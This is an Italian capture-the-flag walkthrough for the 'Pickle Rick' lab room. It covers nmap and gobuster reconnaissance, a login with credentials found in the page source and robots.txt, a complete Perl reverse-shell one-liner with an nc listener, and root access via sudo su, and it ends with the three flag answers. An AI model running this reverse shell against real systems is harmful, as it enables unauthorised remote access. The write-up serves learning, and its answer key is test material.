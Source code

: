 #  Pickle Rick

_________________

#  Task 1 - Pickle Rick

- sudo nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_pickle.txt TARGET-IP

![Istantanea_2023-08-05_17-20-30](https://github.com/Manganaccio/Manganaccio/assets/137283468/b0671aa8-bd4a-4af2-9a30-91cf0f6c35ad)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa, viene fornita un username, manca a questo punto una password ed una pagina di login

![Istantanea_2023-08-05_17-19-18](https://github.com/Manganaccio/Manganaccio/assets/137283468/259037d1-74af-4e30-a989-0410973aed80)

- usare gobuster per trovare le directories nascoste e aggiungendo il comando _-x php_ in modo da trovare eventuali pagine di login: gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/common.txt  -x php

![Istantanea_2023-08-06_09-07-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8486d2e6-e4e6-4424-82a2-10af685be615)

- visitando la pagina robots.txt si può ottenere una parola che presumibilmente sarà la password dell'username trovato in precedenza

 ![Istantanea_2023-08-05_17-21-44](https://github.com/Manganaccio/Manganaccio/assets/137283468/c2bbae57-8946-44ad-93c0-74a3f1ac815f)

- visitando la pgina login.php si potrà effettuare l'accesso con le credenziali trovate. Si verrà poi indirizzati ad una nuova pagina web dove si potrà eseguire il comando per ottenere la reverse shell:
  perl -e 'use Socket;$i="YOUR-IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
- in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "perl")

# What is the first ingredient that Rick needs?

- una volta messi in comunicazione si può trovare il primo ingrediente nella directory /var/www/html

![Istantanea_2023-08-06_09-36-42](https://github.com/Manganaccio/Manganaccio/assets/137283468/74752716-7fb8-40b7-ad59-877b42e927dd)

    Answer: mr. meeseek hair

# What is the second ingredient in Rick’s potion?

- nella medesima directory del primo ingrediente c'è un altro file interessante demoninato _clue.txt_: Look around the file system for the other ingredient.
- navigando in home e successivamente nella cartella rick si trova il secondo ingrediente

![Istantanea_2023-08-06_09-38-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/7b8841b0-25bc-476f-b64f-970ba538e2fb)

    Answer: 1 jerry tear

# What is the last and final ingredient?

- eseguendo il comando _sudo -l_ si nota che si possono scalare i privilegi eseguendo semplicente il comando: sudo su
- una volta diventati root navigare nella relativa cartella per trovare l'ultimo ingrediente

![Istantanea_2023-08-06_09-46-46](https://github.com/Manganaccio/Manganaccio/assets/137283468/270a464e-90ab-4144-b184-4f48ad496952)

    Answer: fleeb juice

